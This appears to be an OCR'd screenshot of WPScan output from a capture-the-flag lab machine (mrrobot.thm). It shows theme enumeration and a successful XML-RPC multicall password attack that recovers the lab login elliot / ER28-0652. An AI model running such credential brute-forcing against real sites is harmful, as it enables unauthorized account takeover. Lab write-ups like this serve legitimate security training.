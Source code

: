 ```bash
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://mrrobot.thm/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <============================================> (21 / 21) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - elliot / ER28-0652                                                                                           
All Found                                                                                                                
Progress Time: 00:03:44 <==================================                             > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Sep 21 15:05:01 2020
[+] Requests Done: 36
[+] Cached Requests: 36
[+] Data Sent: 9.049 KB
[+] Data Received: 1.246 MB
[+] Memory used: 248.34 MB
[+] Elapsed time: 00:03:53
```